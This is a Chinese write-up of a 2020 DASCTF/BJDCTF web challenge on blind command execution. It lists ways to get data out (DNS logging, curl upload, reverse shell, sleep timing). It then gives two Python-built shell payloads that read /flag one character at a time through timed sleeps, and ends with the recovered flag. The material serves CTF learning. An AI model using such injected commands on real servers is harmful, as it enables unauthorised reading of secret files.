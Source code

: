 # 安恒五月线上赛（DASCTF）&&第三届BJDCTF

## 比赛信息

> 任务描述：2020年DASCTF五月线上赛&&第三届BJDCTF
>
> 比赛链接：https://www.linkedbyx.com/taskinfo/1178/detail
>
> 进行时间：2020-5-22 11:00 -- 2020-5-23 23:00 晚上暂停
>
> 官方writeup收集：https://shimo.im/docs/DRgjXTH3cJjrHKcw
>
> [BJD 3nd & DASCTF 五月月赛wp](http://www.resery.top/2020/05/23/BJD%203nd%20&%20DASCTF%20%E4%BA%94%E6%9C%88%E6%9C%88%E8%B5%9Bwp/)
>
> [DASCTF x BJDCTF问题汇总](https://shimo.im/docs/ej5PaWAbTGgxTuYK)



## 题目信息

### WEB

#### 帮帮小红花（100）

> 明明都已经有了黑页，为啥我不能上车呢？flag为/flag文件内容的md5值
>
> hint1：防火墙
>
> 183.129.189.60:10069,10070,10071,10072,10073,10074

其他writeup:

- https://www.cnblogs.com/h3zh1/p/12945275.html

无回显命令执行，主要有这几个方法：DNSLOG、curl上传文件、反弹shell、sleep盲注

经过测试sleep可用，然后只需要拼出可用的shell命令就行了

```python
# 上面writeup中的
playload = '''h3zh1=$( cat /flag | cut -c %d-%d );if [ $( printf '%%d' "'$h3zh1" ) -gt %d ];then sleep %f;fi''' % ( i, i, mid, SLEEP_TIME)

# 下面我用的
# 直接${flag:0:1}截取字符不好使，这里变通了一下使用${flag#fl}和${#lll}通过截取字符串判断长度
# lll是模糊截取后面的字符串，i从大到小，当sleep 3时，字符c就在倒数第i位上
playload = 'fflag=`cat /flag`;lll=${fflag#*s_great*%s};if [ ${#lll} -ge %d ];then sleep 3;fi'%(c,i)
```

```
BJD{make_iptables_great_again}
```
